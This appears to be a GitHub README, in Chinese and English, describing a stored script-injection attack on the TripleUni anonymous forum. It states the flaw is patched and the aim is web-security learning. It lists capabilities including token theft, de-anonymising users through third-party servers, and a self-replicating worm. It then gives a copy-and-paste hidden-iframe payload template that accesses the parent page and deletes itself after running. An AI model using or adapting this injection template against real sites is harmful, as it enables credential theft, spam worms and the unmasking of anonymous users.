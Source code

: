 # TripleUni - Script

## 声明
* 以下测试均在私密树洞进行，未进行大规模传播。
* 本测试旨在web安全学习，不会用于任何非法用途，也未对任何人或组织造成任何损失。
* 以下脚本在当前版本的TripleUni上**均已失效**，仅供学习参考。

## 总结
* 通过iframe注入脚本，在其它用户打开树洞时，可以实现对TripleUni的任意操作，包括但不限于：
  * 获取用户信息
  * 获取树洞信息
  * 获取token
  * 关注树洞
  * 评论树洞
  * 发帖
  * 自我复制
  * 重定向
  * 等等
* 通过获取用户信息+跨域访问第三方服务器or实名发布树洞，可以实现**去匿名化**。
* 通过自我复制+发布树洞，甚至可以实现一个小型的**蠕虫**程序，对TripleUni进行攻击。
* **事实证明防止html注入真的很重要（doge）**

## What is it?
The script can `inject js code to tripleuni`. You can use it to edit the html of tripleuni, get the id of the post, auto follow the post, comment to the post, post, self-replication, redirect to another page and so on. `Basically, you can do anything you want`.

* TIPS: Only work for web version of tripleuni.

## How to use

### 1. Copy the code below

The code below is a template. You can copy it and paste it to tripleuni.

```html
<iframe
  id="iseeyou"
  srcdoc="
    <script type='text/javascript'>
        let pdoc = parent.document;

        // YOUR CODE HERE

        // remove self
        let self = parent.document.getElementById('iseeyou');
        self.parentNode.removeChild(self);
    </script>
    "
  width="0"
  height="0"
  frameborder="0"
  style="display: none"
>
</iframe>
```
